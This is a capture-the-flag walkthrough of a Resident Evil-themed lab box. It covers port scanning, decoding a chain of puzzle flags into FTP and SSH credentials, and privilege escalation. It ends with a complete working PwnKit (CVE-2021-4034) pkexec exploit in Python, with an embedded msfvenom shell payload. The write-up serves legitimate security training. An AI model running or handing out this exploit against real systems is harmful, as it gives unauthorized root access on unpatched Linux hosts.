### Task 1
#### Open Ports 
```bash
rustscan -a 10.10.46.139 -- -A
Open 10.10.46.139:80
Open 10.10.46.139:21
Open 10.10.46.139:22

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 60 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c9:03:aa:aa:ea:a9:f1:f4:09:79:c0:47:41:16:f1:9b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDM1/tmq8Lrur25evbyyI7/+nxDlhbVbMMiRfz5a0eI7Sq9yODJGCVNMPJGKOwtgA/BlPi7V3TKyYJVeH1QOzP8mPLVgfYom6ovelJiLiR6VrO4dqxx+G3ir+tj/OOSc4MpmdnqCvQKtAeJ4e5bbWakFihXyy14yi++oOzqp2VDlqMNN+d2k0uSAx1rDbngwP3UvRfE1E1TaSYhljnb9kvWRxBABhpdkUjbcRLwxBAQFBm9Vm+yQYPurC9YJ1BUlJzOFesYnbS27bG1vVCcuPQN3YjcljVCXBdd0qIvZdYlez4+mVUcJJh1iWl83sfgo+wZRmfHsedjdL1eWNrkt+ed
|   256 2e:1d:83:11:65:03:b4:78:e9:6d:94:d1:3b:db:f4:d6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNy83txF27peDYxMhrPqfipXwZtBNY9H4fww7f2FRCkt09tEcp5f5BKhOE4cNo033XYpmaowy1r4qgFpIqKjf64=
|   256 91:3d:e4:4f:ab:aa:e2:9e:44:af:d3:57:86:70:bc:39 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMhTmk6F06eyLfM0j07nUcnqMqGdgOfFqsp3eLdbwwn0
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Beginning of the end
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.18 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
```

Go to URL: http://<machine_ip>


##### Q2: How many open ports?
##### Answer: 3
##### Q3: What is the team name in operation?
##### Answer: STARS alpha team

### Task 2 
Go to URL: http://<machine_ip>/mansionmain/
And the source code is:

Go to URL http://<machine_ip>/diningRoom
And the source code is:

and going to http://<machine_ip>/diningRoom/emblem.php we get the emblem flag.

Now refresh the http://<machine_ip>/diningRoom/ page and enter the retrived flag.

```bash
echo 'SG93IGFib3V0IHRoZSAvdGVhUm9vbS8=' | base64 -d
How about the /teaRoom/
```
Now go to the http://<machine_ip>/teaRoom/ and get the lockpick flag and discover new url http://<machine_ip>/artRoom 

Lockpick flag

Go to URL: http://<machine_ip>/artRoom 

And discover all available URL 

```
http://10.10.46.139/diningRoom/
http://10.10.46.139/teaRoom/
http://10.10.46.139/artRoom/
http://10.10.46.139/barRoom/
http://10.10.46.139/diningRoom2F/
http://10.10.46.139/tigerStatusRoom/
http://10.10.46.139/galleryRoom/
http://10.10.46.139/studyRoom/
http://10.10.46.139/armorRoom/
http://10.10.46.139/attic/
```
At /barRoom submit the lockpick 

Returns the following

Click Read. 

```bash
echo 'NV2XG2LDL5ZWQZLFOR5TGNRSMQ3TEZDFMFTDMNLGGVRGIYZWGNSGCZLDMU3GCMLGGY3TMZL5' | base32 -d
music_sheet{362d72deaf65f5bdc63daece6a1f676e}
```
submit the flag in the previous page

click YES

Submit the flag in previous page.
Again submit the emblem flag in this page and get

I /dinningRoom submit the gold emblem flag

Decoding it with cyberchef in Vigenère cipher using key 'rebecca'
`there is a shield key inside the dining room. The html page is called the_great_shield_key`
Visiting the URL: http://<machine_ip>/diningRoom/the_great_shield_key.html get the shield key

In the /armorRoom submit the shield key flag

And then click READ 

And get crest3:
```
crest 3:
MDAxMTAxMTAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAxMDAgMDExMDAxMDAgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAxMDAgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMDAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTAxMTAgMDExMDAwMTEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAxMDEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDExMDAwMDEgMDAxMDAwMDAgMDAxMTAxMDEgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMDEgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAwMTAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDA=
Hint 1: Crest 3 has been encoded three times
Hint 2: Crest 3 contanis 19 letters
Note: You need to collect all 4 crests, combine and decode to reavel another path
The combination should be crest 1 + crest 2 + crest 3 + crest 4. Also, the combination is a type of encoded base and you need to decode it
```
Decoding it with cyberchef:
`Crest3: c3M6IHlvdV9jYW50X2h`

Again Submit the shield flag in /attic 

Click READ 

And get crest 4

Decoding it with cyberchef
`Crest4: pZGVfZm9yZXZlcg==`
Now visit the /diningRoom2F and view the source code

Decoding it with ROT13 We get
```
You get the blue gem by pushing the status to the lower floor. The gem is on the diningRoom first floor. Visit sapphire.html
```
Now go to http://<machine_ip>/diningRoom/sapphire.html
and get the blue gem flag.

Now go to /galleryRoom and click EXAMINE.

and click EXAMINE.

Decoding it with Cyberchef We get chrest2
`Chrest2: h1bnRlciwgRlRQIHBh`
Go to /tigerStatusRoom

place the blue gem flag

Decoding it with Cyberchef We get chrest1
`Chrest1: RlRQIHVzZXI6IG`

Submitting the gold_emblem in /dinningRoom


Now, crest 1 + crest 2 + crest 3 + crest 4 `RlRQIHVzZXI6IGh1bnRlciwgRlRQIHBhc3M6IHlvdV9jYW50X2hpZGVfZm9yZXZlcg==`
Decode 
```bash
echo 'RlRQIHVzZXI6IGh1bnRlciwgRlRQIHBhc3M6IHlvdV9jYW50X2hpZGVfZm9yZXZlcg==' | base64 -d                      
FTP user: hunter, FTP pass: you_cant_hide_forever
```
Login with ftp and download all the files

From important.txt

hidden directory /hidden_closet/
From 001-key.jpg

```bash
cat key-001.txt   
cGxhbnQ0Ml9jYW
```
From 002-key.jpg
```bash
file 002-key.jpg 
002-key.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "5fYmVfZGVzdHJveV9", progressive, precision 8, 100x80, components 3
```
From 003-key.jpg

Adding three keys
`cGxhbnQ0Ml9jYW5fYmVfZGVzdHJveV93aXRoX3Zqb2x0`
Decode
```bash
echo 'cGxhbnQ0Ml9jYW5fYmVfZGVzdHJveV93aXRoX3Zqb2x0' | base64 -d
plant42_can_be_destroy_with_vjolt
```
Using the key decrypt the helmet key flag

Submit the flag in /hidden_closet/


Click READ and Get
`wpbwbxr wpkzg pltwnhro, txrks_xfqsxrd_bvv_fy_rvmexa_ajk`
Using [this](https://www.boxentriq.com/code-breaking/vigenere-cipher) url I solved the vigenere-cipher
`weasker login password, stars_members_are_my_guinea_pig`
Click EXAMINE and get 
`SSH password: T_virus_rules`

Again submit the helmet key flag in /studyRoom

Click the EXAMINE and download doom.tar.gz

Extract and view file from doom.tar.gz

Now login with SSH username and password

Inside user home directory:

Go to `cd /home/weasker` and read weasker_note.txt

#### Privilege Escalation
Using SUID privilege of pkexec

Use the following python script to get privilege 
```python3
#!/usr/bin/env python3
# CVE-2021-4034
# Original research done by Qualys https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
# Credits to (blasty and Joe Ammond) for their great work
# exploit code written by Ahmad Almorabea @almorabea

import base64
import os
import sys
import shutil
from ctypes import *
from ctypes.util import find_library

choise = input ("Do you want to choose a custom payload? y/n (n use default payload)  ")

if choise ==  'y':
	cPayload = input("please choose the payload in base64 from msfvenom  ")
	temp = open(cPayload, "r")
	payload_byte_msfvenom = temp.read()
	print(payload_byte_msfvenom)

else:
#msfvenom linux/x64/exec payload
	payload_byte_msfvenom = b'''
	f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAkgEAAAAAAABAAAAAAAAAALAAAAAAAAAAAAAAAEAAOAAC
	AEAAAgABAAEAAAAHAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAArwEAAAAAAADMAQAAAAAAAAAQ
	AAAAAAAAAgAAAAcAAAAwAQAAAAAAADABAAAAAAAAMAEAAAAAAABgAAAAAAAAAGAAAAAAAAAAABAA
	AAAAAAABAAAABgAAAAAAAAAAAAAAMAEAAAAAAAAwAQAAAAAAAGAAAAAAAAAAAAAAAAAAAAAIAAAA
	AAAAAAcAAAAAAAAAAAAAAAMAAAAAAAAAAAAAAJABAAAAAAAAkAEAAAAAAAACAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAwAAAAAAAAAkgEAAAAAAAAFAAAAAAAAAJABAAAAAAAABgAAAAAA
	AACQAQAAAAAAAAoAAAAAAAAAAAAAAAAAAAALAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAASDH/amlYDwVIuC9iaW4vc2gAmVBUX1JeajtYDwU=
	'''
payload64 = base64.b64decode(payload_byte_msfvenom)

# altered environment variable to pass it to execve()
environ = [
        b'exploit',
        b'PATH=GCONV_PATH=.',
        b'LC_MESSAGES=en_US.UTF-8',
        b'XAUTHORITY=../exploitedWithLove',
        None
]

print("[+] Cleaning pervious exploiting attempt (if exist)")
if os.path.exists("payload.so"):
    os.remove("payload.so")
if os.path.exists("exploit"):
	shutil.rmtree("exploit")
if os.path.exists("GCONV_PATH=."):
	shutil.rmtree("GCONV_PATH=.")


print('[+] Creating shared library for exploit code.')
try:
    with open('payload.so', 'wb') as f:
        f.write(payload64)
except:
    print('[!] Failed creating payload.so.')
    sys.exit()
os.chmod('payload.so', 755)

try:
    os.mkdir("GCONV_PATH=.")
    with open('GCONV_PATH=./exploit', 'wb') as f:
        f.write(b'')
except:
    print('[!] Failed creating exploit file')
    sys.exit()
os.chmod('GCONV_PATH=./exploit', 755)

try:
    os.mkdir('exploit')
except FileExistsError:
    print('[-] exploit directory already exists, continuing.')
except:
    print('[!] Failed making exploit directory.')
    sys.exit()


try:
    with open('exploit/gconv-modules', 'wb') as f:
        f.write(b'module  UTF-8//    INTERNAL    ../payload    2\n');
except:
    print('[!] Failed to create gconf-modules config file.')
    sys.exit()


environ_p = (c_char_p * len(environ))()
environ_p[:] = environ


try:
    print("[+] Finding a libc library to call execve")
    libc = CDLL(find_library('c'))
    print("[+] Found a library at " + str(libc))
except:
    print('[!] Failed to find the library ')
    sys.exit()

print('[+] Call execve() with chosen payload')
print('[+] Enjoy your root shell')
libc.execve(b'/usr/bin/pkexec', c_char_p(None), environ_p)
```

